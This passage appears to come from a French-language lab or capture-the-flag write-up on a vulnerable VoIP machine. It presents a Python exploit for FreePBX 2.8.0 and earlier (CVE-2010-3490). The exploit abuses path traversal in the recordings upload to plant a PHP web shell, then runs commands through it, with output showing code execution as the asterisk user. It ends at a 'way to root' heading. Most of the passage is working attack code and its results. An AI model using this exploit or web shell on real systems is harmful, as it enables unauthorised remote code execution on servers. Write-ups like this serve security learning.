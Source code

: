 ```python
    sys.exit()

data = {
    'action': 'recorded',
    'display': 'recordings',
    'usersnum': '../../../../../var/www/html/admin/{0}'.format(KEYW),
    'rname': "".join([random.choice(string.hexdigits) for _ in xrange(10)]),
    'Submit': 'Save'
    }

content = "<?php system($_GET['cmd']); ?>"
files = {
        'ivrfile': ('backdoor.php', content, 'application/octet-stream')
        }
hdrs = {"referer": BASE + "config.php?type=setup&display=recordings"}

r = sess.post(BASE + "config.php?type=setup&display=recordings",
        data=data,
        files=files,
        auth=creds,
        headers=hdrs)

print("[i] Testing shell at address {0}{1}-ivrrecording.php".format(BASE, KEYW))
r = requests.get(BASE + KEYW + "-ivrrecording.php?cmd=uname+-a", auth=creds)
if r.status_code != 200:
    print("[-] Received HTTP code {0} for this url".format(r.status_code))
else:
    print("HTTP 200 OK")
    print r.content
```

L'upload passe correctement :  

```plain
$ python sploit.py 
devloop exploit for FreePBX <= 2.8.0 (CVE-2010-3490)
Usage: {0} <url_to_freepbx_admin_directory> <username> <password>
$ python sploit.py http://192.168.1.67/admin/ support securesupport123
devloop exploit for FreePBX <= 2.8.0 (CVE-2010-3490)
[+] Connection successful
[i] Testing shell at address http://192.168.1.67/admin/devloop-ivrrecording.php
HTTP 200 OK
Linux vulnvoip.localdomain 2.6.18-308.16.1.el5 #1 SMP Tue Oct 2 22:01:37 EDT 2012 i686 i686 i386 GNU/Linux
```

Les scripts PHP tournent avec les droits d'*asterisk* (*uid=101(asterisk) gid=103(asterisk) groups=103(asterisk)*)  

Après la mise en place d'un serveur *tsh* je remarque qu'il n'y a pas d'utilisateurs sur le système (pas de dossiers dans */home*).  

The way to root
---------------
